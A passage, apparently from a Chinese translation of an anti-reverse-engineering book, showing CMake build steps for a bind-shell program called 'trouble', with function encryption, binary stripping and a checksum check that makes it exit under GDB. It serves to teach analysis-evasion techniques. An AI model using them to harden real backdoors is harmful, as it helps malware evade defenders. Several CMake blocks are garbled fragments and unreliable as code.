add_executable(${PROJECT_NAME} src/trouble.c src/rc4.c src/rc32.c)
add_custom_command(ADDLDS
    COMMAND sed -i -e 's,-o,$${CMAKE_CURRENT_SOURCE_DIR}/trouble_layout.lds -o,g' ./CMakeFiles/trouble.dir/link.txt)
```

# 第6章：逃避调试器

```cmake
add_dependencies(${PROJECT_NAME} addLDS)
# 编译成功后，向用户显示随机密码
add_custom_command(TARGET ${PROJECT_NAME} POST_BUILD
COMMAND ${CMAKE_COMMAND} -E echo
"The bind shell password is: ${random_password}")
```

```cmake
add_custom_command(TARGET ${PROJECT_NAME}
POST_BUILD
COMMAND ${CMAKE_COMMAND} -E echo
```

_..BINARY_

)
```

```cmake
add_custom_command(TARGET ${PROJECT_NAME}
POST_BUILD
COMMAND
__.ble
BINARY/BINARY_
)
```

```cmake
add_custom_command(TARGET ${PROJECT_NAME}

POST_BUILD

COMMAND

_trouble.

/BINARY_

)
```

```cmake
add_custom_command(TARGET ${PROJECT_NAME}
POST_BUILD
COMMAND
__.}


)
```

你应该将`checksums`钩子到编译过程中

## 将 checksums 钩子到编译过程中

```bash
albino_lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ make
+   [11%] Built stripBinary
[ 22%] Built fakeHeadersXBit
[ 38%] Built encryptFunctions
Scanning dependencies of targetChecksums
[ 44%] Building CXX object computes.dir/src/compute.o
[ 50%] Linking CXX executable computes
[ 55%] Built computeChecksums
[ 66%] Built madvise
[ 77%] Built cryptor
[ 77%] Built addLDS
Scanning dependencies of trouble
```

# 第6章：逃避调试器

```
+   [83%] Building C object trouble/trouble.dir/src/trouble.o
[ 88%] Building C object trouble/trouble.dir/src/rc4.o
[ 94%] Building C object trouble/trouble.dir/src/crc32.o
[100%] Linking executable trouble

The bind shell password is: 5LMreZ052LLk1infOypemEZw6
[+] Encrypted 0x3b26
[100%] Built trouble
```

现在当你使用`GDB`执行时，输出应该是这样的。


```bash
albino_lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ sudo gdb ./trouble/trouble
GNU gdb (Ubuntu 7.11-1-0ubuntu16.04) 7.11
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU gdb version 3 or later <http://gnu.org/licenses/gpl.html>
This software is free to change and redistribute.
There is NO WARRANTY, to the extent permitted by law. Type "show copying" and "show warranty" for details.
This gdb was configured as "x86_64-linux-gnu". Type "show configuration" for configuration details.
For bug reporting instructions, please see:
http://www.gnu.org/software/gdb/bugs/gdb/.
Find the GDB manual and other documentation resources online at:
http://www.gnu.org/software/gdb/documentation/.
For help, type "help".
Type "apropos" word to search for commands related to "word"
Reading symbols from ./trouble/trouble...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1 at 0x403c5a
Starting program: /home/albino-lobster/antire_book/chap_6_debugger/dontpanic/build/trouble/trouble
[Inferior 1 (process 39299) exited normally]
(gdb)
```

`Trouble` 退出是因为 `gdb` 通过覆盖字节设置断点修改了 `main()`。当 `Trouble` 对 `main()` 计算校验和时，它将与存储的校验和不匹配，导致 `Trouble` 退出。
